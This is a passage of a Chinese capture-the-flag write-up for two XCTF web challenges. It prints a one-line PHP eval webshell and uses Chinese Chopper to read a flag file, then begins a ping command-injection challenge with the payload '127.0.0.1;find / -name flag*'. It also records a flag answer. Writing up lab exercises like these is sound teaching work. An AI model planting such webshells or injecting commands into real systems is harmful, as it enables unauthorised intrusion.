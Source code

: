 ## 题目来源

Cyberpeace-n3k0 

## 题目链接

http://adworld.xctf.org.cn/adw/answer/5070/?primary=web

## writeup

打开页面，提示信息如下：

```php
你会使用webshell吗？
<?php @eval($_POST['shell']);?> 
```

![1544159090602](F:\学习资料\hacker\学习笔记\ctf\writeup\xctf攻防世界\web\assets\1544159090602.png)

根据提示，直接选择菜刀连接一句话。

![1544159162214](F:\学习资料\hacker\学习笔记\ctf\writeup\xctf攻防世界\web\assets\1544159162214.png)

可以看到，有一个`flag.txt`

打开，即可看到flag

```html
xctf{36180279fd1897c9d5dc96e938fe2b84}
```

# command_execution

## 题目描述

小宁写了个ping功能,但没有写waf,X老师告诉她这是非常危险的，你知道为什么吗。 

## 题目来源

Cyberpeace-n3k0 

## 题目链接

http://adworld.xctf.org.cn/adw/answer/5071/?primary=web

## writeup

查看页面，可以发现只有一个ping的接口。根据题目提示，可以知道这道题是要考命令执行。

那么我们可以拼接命令来执行，首先查看flag文件在那里

```
127.0.0.1;find / -name flag*
```
